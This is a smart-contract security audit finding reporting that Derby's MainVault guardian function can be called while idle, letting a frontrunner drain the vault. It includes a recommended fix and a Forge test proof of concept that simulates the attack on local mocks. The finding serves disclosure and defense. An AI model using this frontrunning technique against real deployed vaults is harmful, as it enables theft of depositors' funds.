 Bobface

medium

# `setXChainAllocationGuard` can be called in an too early state, leading to vault being drained

## Summary
The guardian can call [`MainVault.setXChainAllocationGuard`](https://github.com/sherlock-audit/2023-01-derby/blob/main/derby-yield-optimiser/contracts/MainVault.sol#L427) during the wrong contract state, either by accident or on purpose, which can lead to the vault being drained.

## Vulnerability Detail
[`MainVault`](https://github.com/sherlock-audit/2023-01-derby/blob/main/derby-yield-optimiser/contracts/MainVault.sol)'s reblancing is a multi-step process starting with a call to [`pushTotalUnderlyingToController`](https://github.com/sherlock-audit/2023-01-derby/blob/main/derby-yield-optimiser/contracts/MainVault.sol#L249) when a [certain amount of time](https://github.com/sherlock-audit/2023-01-derby/blob/main/derby-yield-optimiser/contracts/Vault.sol#L428) has passed since the last rebalancing. During the rebalancing process, the [`exchangeRate` is updated](https://github.com/sherlock-audit/2023-01-derby/blob/main/derby-yield-optimiser/contracts/MainVault.sol#L296) to include the yields generated since the last rebalancing. 

The guardian has the option to call the authorized method [`setXChainAllocationGuard`](https://github.com/sherlock-audit/2023-01-derby/blob/main/derby-yield-optimiser/contracts/MainVault.sol#L427) which manually sets certain values, including the `exchangeRate`. This method can be called, either by accident or on purpose, while the contract is in `State.Idle`.

## Impact
If this method is called while the vault is in `State.Idle`, the vault can be drained by frontrunning the guardian's transaction, by depositing a large amount of funds, such that `newly_deposited_funds * new_exchange_rate = all_funds_in_vault`.

Such a call could happen
- on purpose, e.g. a rogue or compromised guardian (out-of-scope since guardian is trusted).
- by accident, where the guardian calls this method too early in the rebalancing process, and the vault gets drained by a malicious third-party watching the mempool.

## Tool used

Manual Review

## Recommendation
Ensure the vault has started the rebalancing process before allowing calls to `setXChainAllocationGuard` (note the `require`):
```solidity
function setXChainAllocationGuard(
    uint256 _amountToSend,
    uint256 _exchangeRate,
    bool _receivingFunds
  ) external onlyGuardian {
    require(state != State.Idle, "Contract in Idle state");
    setXChainAllocationInt(_amountToSend, _exchangeRate, _receivingFunds);
}
```


## Code Snippet
The PoC is implemented as Forge test. To run it, 
1. [Install Foundry](https://github.com/foundry-rs/foundry#installation) if you have not already done so
2. In the `derby-yield-optimiser` directory, paste the following content into `foundry.toml`:
```toml
[profile.default]
src = 'contracts'
out = 'out'
libs = ['lib']

# See more config options https://github.com/foundry-rs/foundry/tree/master/config
```
3. Run `forge init --force --no-commit`. You can ignore the git error it displays.
4. Run `forge install openzeppelin/openzeppelin-contracts --no-commit`. Again, ignore the git error.
5. Paste the following content into `remappings.txt`:
```txt
hardhat/=lib/forge-std/src
@openzeppelin/=lib/openzeppelin-contracts/
```
6. Paste the Solidity code below into `test/Frontrun.t.sol`.
7. Finally, to run the PoC, execute `forge test -m testFrontrun -vv`. You should see this output:
```txt
Running 1 test for test/Frontrun.t.sol:FrontrunTest
[PASS] testFrontrun() (gas: 9850645)
Logs:
  Made a profit of 10000 tokens
```

Code:

```solidity
pragma solidity ^0.8.11;

import "../contracts/MainVault.sol";
import "../contracts/Interfaces/IController.sol";

import "forge-std/Test.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract FrontrunTest is Test {
    ERC20 token;
    MainVault vault;

    User badUser;
    User someNormalUsers;

    function main() internal {
        // ENTRY POINT
        // Runs the main PoC after the environment has been set up.
        
        // Here, the bad user sees the call to `setXChainAllocationGuard`
        // pending in the mempool and frontruns it with a `deposit`.
        badUser.deposit(10_000 ether);

        // The call to `setXChainAllocationGuard` gets executed.
        vault.setXChainAllocationGuard(0, 2e18, false);

        // The remaining rebalancing process is executed as usual
        vault.receiveProtocolAllocations(new int256[](0));
        vault.rebalance();
        vault.sendRewardsToGame();

        // Immediately after, the bad user withdraws
        badUser.withdrawAll();
        badUser.print();
    }

    function testFrontrun() external {
        // Create the token
        token = new ERC20("TOKEN", "TOKEN");

        // Create the vault
        vault = new MainVault(
            "VAULT",
            "VAULT",
            18,
            1,
            address(this),
            address(0),
            address(this),
            address(token),
            1e18
        );

        // Set this contract as XProvider
        vault.setHomeXProvider(address(this));

        // Set this contract as guardian
        vault.setGuardian(address(this));

        // Create the users
        badUser = new User(token, vault);
        someNormalUsers = new User(token, vault);

        // Fund the vault.
        // These funds would be deposited by users.
        someNormalUsers.deposit(10_000 ether);

        // Execute main
        main();
    }

    // ----------------------------------------------
    // --- XProvider Mock
    function pushTotalUnderlying(
    uint256 _vaultNumber,
    uint32 _chainId,
    uint256 _underlying,
    uint256 _totalSupply,
    uint256 _withdrawalRequests
    ) external payable {}

    function pushRewardsToGame(
    uint256 _vaultNumber,
    uint32 _chainId,
    int256[] memory _rewards
  ) external payable {}

    // ----------------------------------------------
    // --- Controller Mock
    function latestProtocolId(uint256 _ETFnumber) external view returns (uint256) {
        return 0;
    }
}

contract User is Test {
    ERC20 token;
    MainVault vault;

    uint256 deposited;

    constructor(ERC20 _token, MainVault _vault) {
        token = _token;
        vault = _vault;

        token.approve(address(vault), type(uint256).max);
    }

    function deposit(uint256 amount) external {
        deal(address(token), address(this), amount);
        deposited += vault.deposit(amount, address(this));
    }

    function withdrawAll() external {
        vault.withdraw(vault.balanceOf(address(this)), address(this), address(this));
    }

    function print() external {
        uint256 balance = token.balanceOf(address(this));
        console.log("Made a profit of %s tokens", (balance - deposited) / 1e18);
    }
}
```